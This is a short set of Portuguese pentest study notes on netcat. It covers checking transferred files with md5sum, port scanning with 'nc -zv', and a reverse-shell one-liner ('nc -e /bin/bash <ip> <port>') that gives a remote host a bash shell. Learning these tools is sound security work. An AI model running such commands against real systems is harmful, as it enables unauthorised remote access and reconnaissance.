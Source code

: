 # Shell reversa com Netcat 🐚


## Transferencia de arquivos com Netcat

Melhor forma de verificar a integridade de um arquivo:<br>
```bash
md5sum <filename>
```

Assim podemos comparar se o arquivo transferido pelo netcat está de acordo com o gerado.

## Portscan com Netcat


```bash
nc -zv <ip> <port> 
```

    z - zero-I/O mode [used for scanning]

Podemos ainda dar um `bind` em uma aplicação

```bash
nc -e /bin/bash <ip> <port>
```

*Muitos sistemas irão permitir abrir portas sem permissões `root` somente em portas acima da `1024`*